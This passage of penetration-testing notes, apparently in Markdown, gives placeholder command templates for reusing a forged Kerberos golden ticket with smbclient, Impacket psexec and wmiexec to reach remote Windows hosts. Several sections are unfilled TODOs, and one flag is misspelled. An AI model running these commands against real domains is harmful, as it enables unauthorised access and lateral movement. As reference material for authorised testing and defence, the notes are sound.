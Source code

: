 ### 2.2 - Sliver

TODO: Fill this info

### 2.3 - Covenant

TODO: Fill this info

## 03 - Samba Suite

### 3.1 - SMBClient

TODO: refer to the links using `ktutil`

`$ smbclient -U "<username>" -N --use-krb5-ccachce=/path/to/ticket.ccache -L //<IP>`

## 04 - Impacket

- Specify the pass of the golden ticket.

`$ export KRB5CCNAME=/path/to/ticket.ccache`

### 4.1 - SMBClient

`$ smbclient -k -no-pass <domain>/<username>@<IP>`

### 4.2 - PsExec

`$ psexec -k -no-pass <domain_name>/<username>@<IP>`

### 4.3 - WMIExec

`$ wmiexec -k -no-pass <domain_name>/<username>@<IP>`

---
## References

- [Malicious.link: Pass The Hash with Kerberos](https://room362.com/posts/2018/pass-the-hash-with-kerberos/)

- [Hackndo: Kerberos Sliver Golden Tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)

- [Pentestlab Blog: Golden Ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)

- [Hacking Articles: Metasploit For Pentester Mimikatz](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/)